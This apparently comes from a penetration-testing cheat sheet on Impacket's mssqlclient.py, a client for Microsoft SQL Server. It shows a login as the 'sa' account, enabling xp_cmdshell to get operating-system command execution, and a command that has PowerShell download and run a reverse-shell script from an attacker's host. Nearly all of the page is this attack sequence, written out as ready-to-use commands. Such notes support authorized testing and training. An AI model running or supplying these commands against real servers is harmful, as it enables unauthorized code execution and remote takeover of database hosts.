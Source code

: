 # mssqlclient.py

### Example Usage

#### Basic usage:

```bash
python3 mssqlclient.py sa@$ip
```

#### Configure xp\_cmdshell:

```bash
sp_configure 'xp_cmdshell', '1'
RECONFIGURE
```

#### Enable Code Execution:

```bash
enable_xp_cmdshell
```

#### Obtaining a reverse shell from mssqlclient.py:&#x20;

```bash
xp_cmdshell powershell IEX(New-Object Net.webclient).downloadString(\"http://$ip:8080/revshell.ps1\")
```

